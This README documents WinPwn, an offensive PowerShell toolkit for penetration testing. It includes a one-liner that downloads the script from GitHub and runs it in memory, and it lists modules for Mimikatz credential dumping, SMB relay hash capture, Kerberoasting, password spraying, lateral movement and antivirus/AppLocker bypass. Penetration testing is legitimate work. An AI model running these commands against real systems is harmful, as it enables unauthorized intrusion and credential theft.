 # WinPwn
In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. For this reason I wrote my own script with automatic proxy recognition and integration. The script is mostly based on well-known large other offensive security Powershell projects. I only load them one after the other into RAM via IEX Downloadstring and partially automate the execution to save time.

Yes it is not a C# and it may be flagged by antivirus solutions. Windows Defender for example blocks some of the known scripts/functions.

Different local recon modules, domain recon modules, pivilege escalation and exploitation modules. Any suggestions, feedback and comments are welcome!

Just Import the Modules with "Import-Module .\WinPwn_v0.7.ps1" or with 
iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn_v0.6.ps1')

Functions available after Import:
1) #### `WinPwn` -> Guides the user through all functions/Modules with simple questions.
2) #### `Inveigh` -> Executes Inveigh in a new Console window (https://github.com/Kevin-Robertson/Inveigh), SMB-Relay attacks with Session management afterwards
3) #### `sessionGopher` -> Executes Sessiongopher in memory (https://github.com/Arvanaghi/SessionGopher)
4) #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz after with admin rights (https://github.com/PowerShellMafia/PowerSploit)
5) #### `localreconmodules` -> Executes different Get-Computerdetails and Just another Windows Privilege escalation script + Winspect (https://github.com/PowerShellMafia/PowerSploit, https://github.com/A-mIn3/WINspect, https://github.com/411Hall/JAWS)
6) #### `JAWS` -> Just another Windows Privilege Escalation script gets executed
7) #### `domainreconmodules` -> Different Powerview situal awareness functions get executed and the output stored on disk. In Addition a Userlist for DomainpasswordSpray gets stored on disk. An AD-Report is generated as CSV Files (or XLS if excel is installed) with ADRecon. (https://github.com/sense-of-security/ADRecon, https://github.com/PowerShellMafia/PowerSploit, https://github.com/dafthack/DomainPasswordSpray)
8) #### `Privescmodules` -> Executes different privesc scripts in memory (Sherlock https://github.com/rasta-mouse/Sherlock, PowerUp, GPP-Files, WCMDump)
9) #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) (https://github.com/AlessandroZ/LaZagne)
10) #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. Domainpassword-Spray for new Credentials can also be done here.
11) #### `empirelauncher` -> Launch powershell empire oneliner for remote Systems (https://github.com/EmpireProject/Empire)
12) #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder from Powerview (Powersploit)
13) #### `groupsearch` -> FindGPOLocation (Powerview / Powersploit)
14) #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
15) #### `isadmin` -> Checks for local admin access
16) #### `Sharphound` -> Downloads Sharphound and collects Information for the Bloodhound DB
17) #### `adidnswildcard` -> Create a Active Directory-Integrated DNS Wildcard Record and run Inveigh for mass hash gathering. (https://blog.netspi.com/exploiting-adidns/#wildcard)

The "oBEJHzXyARrq.exe"-Executable is an obfuscated Version of jaredhaights PSAttack Tool for Applocker/PS-Restriction Bypass (https://github.com/jaredhaight/PSAttack).

Todo:
- Get the scripts from my own creds repository (https://github.com/SecureThisShit/Creds) to be independent from changes in the original repositories.

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Pwn.png)


## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
